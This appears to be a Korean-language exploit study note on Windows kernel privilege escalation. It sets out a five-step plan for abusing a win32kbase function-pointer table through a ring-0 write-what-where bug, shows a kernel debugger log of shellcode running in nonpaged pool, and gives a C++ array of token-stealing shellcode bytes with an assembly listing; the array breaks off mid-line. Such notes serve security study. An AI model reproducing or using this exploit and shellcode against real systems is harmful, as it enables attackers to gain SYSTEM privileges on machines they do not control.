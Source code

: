 굽,,,

# Executing shellcode

[Data Only Attacks Are Still Alive - Improsec | improving security](https://improsec.com/tech-blog/data-only-attacks-are-still-alive)

우리는 임의의 영역에 값을 쓸 수는 있지만, 임의의 값을 읽을 수는 없다. 이때 나의 갈증을 풀어줄 문서를 찾았다! 위의 링크가 그 문서이고 이 문서는 한번 꼭 정리 해야겠다.

하지만 애석하게도 이 문제는 write-what-where primitive in ring-0 이기 때문에 무결성으로 실행되어 커널 모듈의 기본 주소에 엑세스가 가능하고, NtQuerySystemInformation() 써서 info leak 이 가능했다 ,,,

[Blackhat 2017 : WriteWhat-Where In Creators UPDATE](https://www.notion.so/b4sh5i/Blackhat-2017-WriteWhat-Where-In-Creators-UPDATE-3e3b7f71122844ee89f9f52d6ef2fe30)

2017 블랙햇 발표에서 win32kbase.sys 의 .data 세션에 있는 win32kbase!gDxgkInterface table used by graphical syscalls from the NtGdiDdDDI* family 를 이용하면 쉽게 함수를 랩핑 하여 레지스터 값을 쉽게 패스 할 수 있다고 한다. 다음과 같은 방법으로 익스를 시도하고자 한다.

1. Overwrite the function pointer with the address of `nt!ExAllocatePoolWithTag`.
2. Call the routine with the `NonPagedPool` parameter to allocate writable/executable memory.
3. Write the ring-0 shellcode to the allocated memory.
4. Overwrite the function pointer with the address of the shellcode.
5. Call the shellcode.

> The above scheme makes it possible to cleanly execute the desired payload without corrupting the system state (except for the one overwritten pointer). In his paper, Morten suggested the use of NtGdiDdDDICreateAllocation as the proxy syscall, but I found that it was used in Windows sufficiently often that the system would start malfunctioning if the pointer was not promptly fixed up. To make my life a little bit easier, I chose a less frequently used service that seemed to be called exclusively by my exploit: NtGdiDdDDIGetContextSchedulingPriority.

```
kd> g
Break instruction exception - code 80000003 (first chance)
ffffc689`b8967000 cc              int     3
 
0: kd> u
ffffc689`b8967000 cc              int     3
ffffc689`b8967001 c3              ret
[...]
 
0: kd> !pool @rip
Pool page ffffc689b8967000 region is Nonpaged pool
*ffffc689b8967000 : large page allocation, tag is ...., size is 0x1000 bytes
        Owning component : Unknown (update pooltag.txt)
```

# Elevating privileges

EoP 하는 방법 중 EPROCESS.token 을 훔쳐 현 프로세스에 복사할 계획이다. nt!PsInitialSystemProcess 에 ntoskrnl.exe 이미지의 정적 메모리에서 찾을 수 있다. 두 커널 구조 사이에 하나의 포인터 복사 만 포함한다.

```cpp
// The shellcode takes the address of a pointer to a process object in the kernel in the first
// argument (RCX), and copies its security token to the current process.
//
// 00000000  65488B0425880100  mov rax, [gs:KPCR.Prcb.CurrentThread]
// -00
// 00000009  488B80B8000000    mov rax, [rax + ETHREAD.Tcb.ApcState.Process]
// 00000010  488B09            mov rcx, [rcx]
// 00000013  488B8958030000    mov rcx, [rcx + EPROCESS.Token]
// 0000001A  48898858030000    mov [rax + EPROCESS.Token], rcx
// 00000021  C3                ret
CONST BYTE ShellcodeBytes[] = "\x65\x48\x8B\x04\x25\x88\x01\x00\x00\x48\x8B\x80\xB8\x00\x00\x00"
                              "\x48\x8B\x09\x48\x8B\x89\x58\x03\x00\x00\x48\x89\x88\x58\x03\x00"
```